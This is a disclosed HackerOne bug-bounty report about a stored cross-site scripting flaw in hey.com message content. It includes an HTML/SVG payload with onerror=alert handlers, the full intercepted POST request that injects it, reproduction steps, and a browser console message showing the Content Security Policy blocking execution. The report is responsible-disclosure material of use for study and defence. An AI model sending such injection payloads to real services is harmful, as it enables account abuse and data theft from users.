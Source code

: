 # stored XSS in hey.com message content

## Report Details
- **Report ID**: 988272
- **URL**: https://hackerone.com/reports/988272
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-09-22T15:31:44.005Z
- **Disclosed**: 2020-10-31T06:12:21.638Z

## Reporter
- **Username**: carbon61
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: basecamp

## Vulnerability Information
Hi 
I found a stored xss using ``` message[content] ``` parameter when forwarding an email or saving it as draft ,  and when the victim click on the email to view it, it gets executed .

I used this payload as the message content :
````
From: "f" <[]@hey.com>
To: dcdcsdcsdckhbdsckhb@kjbskjbcsd.com
Message-ID: <3654584aa703ca2fd963856f8495669174ef673f@hey.com>
Subject: <img src=wczxzx onerror=alert(1)>
Mime-Version: 1.0

    </style>
    </div>
    <svg><![CDATA[><table background="]])><img src=xx:x onerror=alert(2)//"></svg>
    <li style=onesr: src= cxxc=></li>
    style>
</style>
  </head>
<style></style>
  <body>

<svg><![CDATA[><image xlink: src="]]><img src=xx:x onerror=alert(2)//"></svg>
<li style=onerror:jkj/onerror=alert(1); =''ds></li>
    </div>
  </body>
</html>
```

#Note:
 i submitted this stored xss without the CSP bypass just to try not to get a duplicate , i will try to bypass the CSP and let you know.

##Steps To Reproduce:
1- make two accounts and login to the first one 
2- go to any email and forward it to the second email account and intercept the request and change it like this:
```
POST /messages HTTP/1.1
Host: app.hey.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html; page-update, text/html, application/xhtml+xml
Accept-Language: ar,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://app.hey.com/entries/[]/forwards/new
X-CSRF-Token: []
Content-Type: multipart/form-data; boundary=---------------------------392581797716153644644274802600
Origin: https://app.hey.com
Content-Length: 1156
DNT: 1
Connection: close


-----------------------------392581797716153644644274802600
Content-Disposition: form-data; name="acting_user_id"

{acting_user_id}
-----------------------------392581797716153644644274802600
Content-Disposition: form-data; name="entry[addressed][directly][]"

[second-email]@hey.com
-----------------------------392581797716153644644274802600
Content-Disposition: form-data; name="message[subject]"

Fwd: csdc
-----------------------------392581797716153644644274802600
Content-Disposition: form-data; name="message[content]"

From: "f" <[]@hey.com>
To: dcdcsdcsdckhbdsckhb@kjbskjbcsd.com
Message-ID: <3654584aa703ca2fd963856f8495669174ef673f@hey.com>
Subject: <img src=wczxzx onerror=alert(1)>
Mime-Version: 1.0

    </style>
    </div>
    <svg><![CDATA[><table background="]])><img src=xx:x onerror=alert(2)//"></svg>
    <li style=onesr: src= cxxc=></li>
    style>
</style>
  </head>
<style></style>
  <body>

<svg><![CDATA[><image xlink: src="]]><img src=xx:x onerror=alert(2)//"></svg>
<li style=onerror:jkj/onerror=alert(1); =''ds></li>
    </div>
  </body>
</html>
-----------------------------392581797716153644644274802600
Content-Disposition: form-data; name="_method"

post
-----------------------------392581797716153644644274802600--

```

3- go to the second email ``` Imbox ``` and click on the email to view it 
4- use the right click on email content to get the devtools and if you view the chrome console you can see the 
```
about:blank:1 Refused to execute inline event handler
 because it violates the following Content Security Policy
 directive: "script-src 'self' https://production.haystack-assets.com *.braintreegateway.com *.braintree-api.com hcaptcha.com *.hcaptcha.com". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.
```

## Impact

using this xss + CSP bypass the attacker can steal data and perform unwanted actions on a victim's behalf.

## Attachments
No attachments
